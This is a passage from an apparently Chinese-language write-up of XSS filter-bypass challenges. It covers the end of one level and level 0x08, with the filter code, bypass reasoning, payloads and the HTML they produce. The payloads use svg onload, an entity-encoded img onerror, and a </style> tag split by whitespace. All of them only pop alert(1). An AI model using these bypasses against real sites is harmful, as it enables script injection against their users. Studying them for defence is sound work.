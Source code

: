 ```
正则匹配了<开头，>结尾的标签字符串，且忽略大小写，并将其替换成空；
利用浏览器容错性，去掉>闭合绕过；
```

input code:

```
1、<svg/onload='alert(1)'
2、<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;
```

html:

```
<article><img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;</article>
```

## 0x08

server code:

```
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```

Analysis:

```
将</style>标签替换成/* \u574F\u4EBA */，忽略大小写；
1、在标签>闭合前加空格绕过；
2、在标签>闭合前换行绕过；
```

input code:

```
1、</style ><script>alert(1)</script
2、</style
><script>alert(1)</script>
```

html:

```
<style>
      </style
><script>alert(1)</script>
    </style>
```

## 0x09
